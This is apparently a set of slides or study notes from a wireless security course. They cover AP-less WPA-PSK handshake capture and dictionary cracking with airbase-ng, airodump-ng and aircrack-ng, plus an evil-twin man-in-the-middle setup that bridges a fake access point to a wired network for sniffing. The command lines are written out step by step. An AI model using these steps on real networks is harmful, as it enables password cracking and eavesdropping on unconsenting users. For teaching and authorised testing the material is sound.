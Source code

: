 ## AP-less WPA-Personal cracking
* Earlier we captured the four-way WPA handshake and a
dictionary to crack the PSK
* To crack WPA, we need four packets:
 * Authenticator nounce
 * Supplicant nounce
 * Authenticator MAC
 * Supplicant MAC
* To crack WPA we need just packets 1 & 2 or just 2 & 3
* So, we make a honeypot AP that will receive packets
1 and 2 (we can't send packet 3 without the PSK)

## AP-less WPA cracking
* `airbase-ng -c 3 -a <AP BSSID> -e "<SSID>" -W 1 -z 2 mon0`
-z 2 creates a WPA-PSK AP with TKIP encryption
* `airodump-ng -c 3 --bssid <AP BSSID> --write <out> mon0`
* Client connects and the handshake fails, but we got what we
needed
* airodump-ng shows that a handshake has been captured
* Run the airodump-ng capture file through aircrack-ng with
a dictionary
* If the password is in the dictionary, it'll be cracked

# Chapter 7: Advanced WLAN Attacks
* Man-in-the-Middle attack
* Wireless Eavesdropping using MITM
* Session Hijacking using MITM

## Man-in-the-Middle attack
* One of the most potent attacks on a WLAN system
* For our purposes we'll assume:
 * Attacker is connected to a wired network
 * Attacker creates an evil twin AP
 * Attacker forwards user traffic using the bridge between the
 wireless and wired interfaces

## Man-in-the-Middle attack
* `airbase=ng --essid mitm -c 11 mon0` to create a soft access
point
* This creates an at0 interface (`ifconfig` to verify)
* Bridge between eth0 (wired) and at0:
 * `brctl addbr mitm-bridge`
 * `brctl addif mitm-bridge eth0`
 * `brctl addif mitm-bridge at0`
 * `ifconfig eth0 0.0.0.0 up`
 * `ifconfig at0 0.0.0.0 up`
 * `ifconfig mitm-bridge 192.168.0.199 up` to assign IP
 address
 * `echo 1 > /proc/sys/net/ipv4/ip_forward` to turn on
 IP forwarding
* In Wireshark, start sniffing on the at0 interface
* Pinging the gateway address from the client machine
goes through our at0 interface even if it's not destined
for us
